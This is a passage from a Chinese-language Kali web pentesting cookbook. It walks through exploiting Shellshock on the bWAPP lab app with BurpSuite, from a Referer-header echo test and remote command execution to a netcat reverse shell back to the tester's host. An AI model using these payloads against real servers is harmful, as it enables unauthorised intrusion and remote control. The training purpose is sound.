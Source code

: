     ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-2.jpg)
    
    我们可以看到，有个`iframe`调用了 shell 脚本：`./cgi-bin/shellshock.sh`，这可能存在 Shellshock 漏洞。
    
5.  让我们跟随提示并尝试攻击`shellshock.sh`。所以我们首先需要配置 BurpSuite 来拦截服务器的响应，访问`Proxy`标签页的`Options`，并选中`Intercept responses based on the following rules`的选择框。

6.  现在，让 BurpSuite 拦截和重新加载`shellshock.php`。

7.  在 BurpSuite 中，点击`Forward`直到得到了`/bWAPP/cgi-bin/ shellshock.sh`请求，之后将`Referer`替换为：

    ```sh
    () { :;}; echo "Vulnerable:"
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-3.jpg)
    
8.  再次点击`Forward`，在`.ttf`文件的请求中，我们应该能得到`shellshcok.sh`的响应，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-4.jpg)
    
    现在响应多了一个协议头参数，叫做`Vulnerable`。这是因为它将`echo`命令的输出集成到 HTTP 协议头中，所以我们可以进一步利用它。
    
9.  现在使用下列命令重复这个过程：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-5.jpg)
    
0.  能够在远程服务器上执行命令，对于渗透测试来说是个巨大的优势，下一步自然是获得远程 shell。在 Kali 中打开终端，监听网络端口，像这样：

    ```
    nc -vlp 12345
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-6.jpg)
    
1.  现在访问 BurpSuite 的代理历史，选择任何`shellshock.sh`的请求，右击它并发送到 Repeater，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-7.jpg)
    
2.  在 Repeater 中，修改 Referer 的值为：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")
    ```
    
    这里，192.168.56.1 是我们 Kali 主机的地址。
    
3.  点击`Go`。

4.  如果我们检查我们的终端，我们可以看到连接已建立，执行一些命令来检查我们是否得到了远程 shell。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-7-8.jpg)
    
### 工作原理
